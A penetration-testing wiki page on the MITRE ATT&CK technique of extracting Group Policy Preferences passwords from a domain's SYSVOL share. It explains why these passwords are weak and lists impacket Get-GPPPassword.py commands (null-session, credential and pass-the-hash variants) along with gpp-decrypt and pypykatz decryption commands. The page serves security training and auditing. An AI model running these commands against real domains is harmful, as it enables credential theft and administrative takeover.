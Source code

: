 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1552.006
---
```


# Group Policy Preferences

## Theory

Windows systems come with a built-in Administrator (with an RID of 500) that most organizations want to change the password of. This can be achieved in multiple ways but there is one that is to be avoided: setting the built-in Administrator's password through Group Policies.

* **Issue 1**: the password is set to be the same for every (set of) machine(s) the Group Policy applies to. If the attacker finds the admin's hash or password, he can gain administrative access to all (or set of) machines.
* **Issue 2**: by default, knowing the built-in Administrator's hash (RID 500) allows for powerful [Pass-the-Hash](https://www.thehacker.recipes/a-d/movement/ntlm/pth) attacks ([read more](https://www.thehacker.recipes/a-d/movement/ntlm/pth#limitations-tips-and-tricks)).
* **Issue 3**: all Group Policies are stored in the Domain Controllers' `SYSVOL` share. All domain users have read access to it. This means all domain users can read the encrypted password set in Group Policy Preferences, and since Microsoft published the encryption key around 2012, the password can be decrypted🤷‍♂️.



***

## Practical

{% hint style="info" %}
From UNIX-like systems, the [Get-GPPPassword.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py) (Python) script in the impacket examples can be used to remotely parse `.xml` files and loot for passwords.
{% endhint %}

```
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

```



### Decrypt the Password

```
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw

gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```



***

## REFERENCES

* [https://www.thehacker.recipes/a-d/movement/credentials/dumping/group-policies-preferences](https://www.thehacker.recipes/a-d/movement/credentials/dumping/group-policies-preferences)
* [https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/#:\~:text=Exploiting%20Group%20Policy%20Preferences%20via%20Metasploit%20%2DI,-As%20we%20know\&text=This%20module%20enumerates%20files%20from,using%20Microsoft's%20public%20AES%20key.](https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/)
* [https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/](https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/)
